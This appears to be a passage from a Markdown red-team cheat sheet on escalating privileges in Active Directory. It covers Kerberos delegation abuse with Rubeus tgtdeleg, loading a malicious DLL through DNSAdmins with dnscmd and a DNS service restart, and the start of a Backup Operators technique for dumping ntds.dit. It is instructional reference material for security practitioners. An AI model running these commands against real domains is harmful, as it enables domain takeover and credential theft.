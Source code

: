 Detailed Articles:

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

❗ In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED\_TO\_AUTH\_FOR\_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

```text
#Command on Rubeus
Rubeus.exe tgtdeleg /nowrap
```

Detailed Article: [Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### DNSAdmins Abuse

_If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work._

1. Enumerate the members of the DNSAdmins group:
   * PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
   * AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2. Once we found a member of this group we need to compromise it \(There are many ways\).
3. Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:

   ```text
   #Using dnscmd:
   dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll

   #Restart the DNS Service:
   sc \\DNSServer stop dns
   sc \\DNSServer start dns
   ```

### Abusing Active Directory-Integrated DNS

* [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
* [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
* [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### Abusing Backup Operators Group

_If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA._

1. Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
